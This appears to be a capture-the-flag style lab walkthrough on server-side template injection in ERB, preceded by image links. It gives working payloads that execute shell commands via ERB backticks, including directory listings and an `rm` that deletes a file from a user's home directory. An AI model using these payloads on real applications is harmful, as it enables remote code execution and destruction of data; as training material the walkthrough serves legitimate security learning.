








# Lab: Basic server-side template injection

> Lab Objective: review the ERB documentation to find out how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

- View Details of a product which is out of stock, then inspect the request:

  - The first request is to get the product with id=1, for instance, it'll will be redirected to another location
    
  - You'll be redirected to request another GET Request with a message as query parameter, this message is reflected within the response body.
    

- With previously knowing that ERB Template is used, use this payload as the value of the message `<%=foobar%>`, you'll notice that it caused an error.
  

- You'll be able execute commands on ERB Template using this template `<%= `ls /` %>`, which initially list all directories in home directory.
  

- Traverse to `/home` directory, through this payload `<%= `ls /home/` %>`
  

- Then traverse to `/carlos` home directory, using `<%= `ls /home/carlos` %>`
  

- You'll find a file called `morale.txt`, and the objective is to delete it, therefore use this payload `<%= `rm /home/carlos/morale.txt` %>`
  

- And the lab is solved
  

---
